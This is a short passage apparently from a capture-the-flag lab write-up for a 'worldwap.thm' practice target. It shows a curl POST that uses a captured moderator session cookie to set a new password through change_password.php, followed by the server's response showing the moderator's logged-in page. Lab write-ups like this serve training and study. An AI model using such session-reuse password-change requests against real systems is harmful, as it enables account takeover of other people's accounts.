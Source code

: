 ![image.png](image%2011.png)

`curl --path-as-is -i -s -k -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 24' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/change_password.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'new_password=anypassword' $'http://login.worldwap.thm/change_password.php'`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:13:49 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6430
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

    </head>
    <body>
    <div class="top-nav">
        <div class="search-container">
            <div class="fb-logo">
                        WORLD WAP
                <!--<img src="./assets/profile.png" alt="Logo" height="50"> -->
            </div>
            <input class="search-bar" type="text" placeholder="Search">
        </div>
        <div class="nav-welcome">
            Welcome Moderator        </div>
        <div class="nav-links">
            <a href="change_password.php">Change Password</a>
            <a href="chat.php">Go to Chat</a>
            <a href="logout.php">Logout</a>
        </div>
    </div>

        <div class="change-password-container">
            <h2>Change Password</h2>
```